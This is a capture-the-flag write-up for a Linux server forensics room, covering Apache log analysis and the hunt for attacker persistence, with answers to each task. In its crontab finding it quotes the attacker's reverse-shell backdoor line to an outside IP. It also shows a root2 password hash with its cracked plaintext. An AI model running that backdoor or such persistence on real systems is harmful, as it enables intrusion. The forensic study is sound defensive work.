 # Linux Server Forensics

## Task 2 Apache Log Analysis I

#### How many different tools made requests to the server?

```bash
cd /var/log/apache2
cat access.log | cut -d '"' -f6 | sort -u | egrep -ai '(Nmap|SQLmap|DirBuster|Nikto)'
# DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)
# Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
```

{% hint style="success" %}
`2`
{% endhint %}

#### Name a path requested by Nmap.

```bash
cat access.log | grep -a Nmap | cut -d ' ' -f7 | sort -u
```

{% hint style="success" %}
`/nmaplowercheck1618912425`
{% endhint %}

## Task 3 Web Server Analysis

#### What page allows users to upload files?

![](<.gitbook/assets/Screenshot from 2021-09-07 18-28-00.png>)

{% hint style="success" %}
`contact.php`
{% endhint %}

#### What IP uploaded files to the server?

```bash
cat access.log | grep -a 'POST /contact.php' | cut -d ' ' -f1
```

{% hint style="success" %}
`192.168.56.24`
{% endhint %}

#### Who left an exposed security notice on the server?

```bash
cat access.log | grep -a DirBuster | egrep '\s200\s' | cut -d ' ' -f7 | sort -u
# /resources/development/2021/docs/SECURITY.md
curl http://127.0.0.1/resources/development/2021/docs/SECURITY.md
# we have to really got to sort out the contact page theres **NO** validation whatsoever.
# I can't belive we haven't been hacked yet - Fred.
```

{% hint style="success" %}
`Fred`
{% endhint %}

## Task 4 Persistence Mechanisms I

#### What command and option did the attacker use to establish a backdoor?

```bash
cat /etc/crontab 
# *  *    * * *   root2   sh -i >& /dev/tcp/192.168.56.206/1234 0>&1
```

{% hint style="success" %}
`sh -i`
{% endhint %}

## Task 5 User Accounts

#### What is the password of the second root account?

```bash
cat /etc/passwd | grep root2
# root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash
```

![](<.gitbook/assets/Screenshot from 2021-09-07 19-03-21.png>)

{% hint style="success" %}
`mrcake`
{% endhint %}

## Task 7 Apache Log Analysis II

#### Name one of the non-standard HTTP Requests.

```
cat access.log | cut -d ' ' -f6 | sort -u
```

{% hint style="success" %}
`GXWR`
{% endhint %}

#### At what time was the Nmap scan performed?

```
cat access.log | grep -a GXWR
```

{% hint style="success" %}
`13:30:15`
{% endhint %}

## Task 8 Persistence Mechanisms II

```
sudo cat /root/.ssh/authorized_keys
```

{% hint style="success" %}
`kali@kali`
{% endhint %}

## Task 9 Program Execution History

#### What is the first command present in root's bash\_history file?

```
sudo cat /root/.bash_history | head -n1
```

{% hint style="success" %}
`nano /etc/passwd`
{% endhint %}

## Task 11 Persistence  Mechanisms III

#### Figure out what's going on and find the flag.

```bash
ls -lt /etc/systemd/system/*.service
systemctl status IpManager
# CGroup: /system.slice/IpManager.service
#         ├─1936 /bin/bash /etc/network/ZGtsam5hZG1ua2Fu.sh
#         └─1949 sleep 10
cat /etc/network/ZGtsam5hZG1ua2Fu.sh | head
```

{% hint style="success" %}
`gh0st_1n_the_machine`
{% endhint %}
